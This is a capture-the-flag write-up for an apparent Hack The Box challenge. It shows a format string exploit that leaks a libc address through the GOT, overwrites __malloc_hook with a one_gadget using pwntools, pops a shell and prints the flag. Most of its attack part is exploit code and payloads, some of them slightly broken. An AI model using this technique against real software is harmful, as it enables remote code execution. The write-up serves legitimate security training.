 > Can you hear the echo?

> Author: **[ly4k][author-profile]**

## Printing the stack

The binary echoes the user input back, and the format string attack works:

```
# 787a6883 00000000 786d5862 15bfb7a0 00000000 78383025 30252078 20783830 38302520 25207838 78383025 30252078 20783830 38302520 25207838 00000000
%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
```

The culprit is printf, as seen in Ghidra:

```c
do {
	fgets(local_118,0x100,stdin);
	printf(local_118);
} while( true );
```

Also interesting:

```
MOV        RAX,qword ptr FS:[0x28]
```

This is said to be a stack canary / cookie to harden against stack smashing.

We have yet to find anything worth on the stack.

## The key

The preceding call to "init" takes a "EVP_PKEY_CTX" as argument, which appears
in the OpenSSL documentation:

> The EVP_PKEY_CTX structure is an opaque public key algorithm context used by
> the OpenSSL high-level public key API.

This might be a target, let's look at it in GDB.

\x11\x11\x11\x11 %08x %08x %08x %08x %08x %08x %08x %08x

Having in consideration the binary security and the code from ghidra, the most common format string attacks will not work (change ret, change fgets PLT/GOT, etc..)

After further research, i found out that malloc (and consequently, free) is used when the string sent to the printf is above a determined size

With this, and with the format string vulnerability, the hooks for those functions can be overwritten and thus redirect the execution to a given address (in this case, system function or a one_gadget that spawns shell)

Before proceeding to the libc leak, more information is needed

Since the program is compiled with PIE, we need to find in the stack the base address in which the program is loaded to then leak the libc printf through the GOT pointer !

To achieve this, use the binary and dump the content for a range

def nonStopLeak():
	data = []
	min_val = 1
	max_val = 40
	log.progress("Starting nonStopLeaking (range: %d to %d)..." % (min_val, max_val))
	data.append("EMPTY ON PURPOSE")
	for i in range(min_val,max_val):
		leak = "%{}$lx".format(i)
		leak = com(leak).strip().decode()
		data.append(leak)
	log.success("nonStopLeaking finalized...")
	return data
To better visualize what the value might be, use GDB to x/s values that are in the stack. The values are easy to analyze if each long word is considered a position (which it is, in fact)

x/100gx $rsp
I found 2 positions (34 and 37) but in the remote, the 34th position is empty contrary to the local memory !
With GDB, we must calculate the offset from the address in memory to the loading address of the elf (visible through vmmap or info proc map)

gdb_offset = address_in_memory - elf_loaded_address  (0x126d)
elf.address = leaked_address - gdb_offset
After this, we need to inject the printf.got address (from the elf) in the stack!

To disclose the value which the printf.got points to, the format string used must be %s because it is the same machanism as when working with buffers (it will print what the address sourced to it, points to) instead of showing the address in the position (as %lx, %x and %p does )

Special attention is needed (in this case) because the elf.got["printf"] contains 2 null terminators which are not an issue to the fgets (to store the content) but will make printf stop (they are also in the beginning so, printf would not print the address)

To mitigate this, instead of the traditional format string approach (where payload is inserted into the stack and the format position is accessed) the used one is in the reverse order (payload after the format string). Also, the 2 null bytes count as an index (which the format string can access)

Another important aspect is the stack alignment. That's the reason the payload consists of 10 A's instead of 8 (64-bit word).

The payload consists of

printf_got = elf.got["printf]
payload = b"AAAAAAAAAA%8$s: " + p64(printf_got)

printf_leak = response
With that leak, we can access https://libc.blukat.me/ and find out which libc version is the server running. Leaked libc possibilities:

libc6-amd64_2.27-3ubuntu1_i386 (32 bits, ignore)
libc6-i386_2.19-0ubuntu6_amd64 (32 bits, ignore)
libc6-i386_2.9-4ubuntu6.3_amd64 (32 bits, ignore)
libc6_2.27-3ubuntu1_amd64
Now that we have a libc and one address of it, we can calculate its base address and consequently extract the values for the hook that we want to overwrite!

libc = ELF("libc6_2.27-3ubuntu1_amd64")
libc.address = printf_leak - libc.symbols["printf"]
__malloc_hook_addr = libc.symbols["__malloc_hook_addr"]
After that we need the offsets for the gadgets (https://github.com/david942j/one_gadget)

cmd: one_gadget libc6_2.27-3ubuntu1_amd64

0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
With the gadgets' offsets, we need to calculate the actual value they have in the server memory

gadget_addr = libc.address + gadget_value
Now need to generate the payload to overwrite the __malloc_hook_addr !
To generate the payload i used the pwntools functionality FmtStr()

fmtstr_payload(exploiter.offset, {__malloc_hook_addr : gadget_addr})
After modifying the hook, just need to trigger it

payload = '%100000c'
And voila, we got a shell !!!

cmd: whoami && id
ctf
uid=999(ctf) gid=999(ctf) groups=999(ctf)

cmd: cat flag.txt
HTB{mall0c_h00k_f0r_th3_w1n!}
FLAG: HTB{mall0c_h00k_f0r_th3_w1n!}

> HTB{mall0c_h00k_f0r_th3_w1n!}

[author-profile]: https://app.hackthebox.eu/users/75443
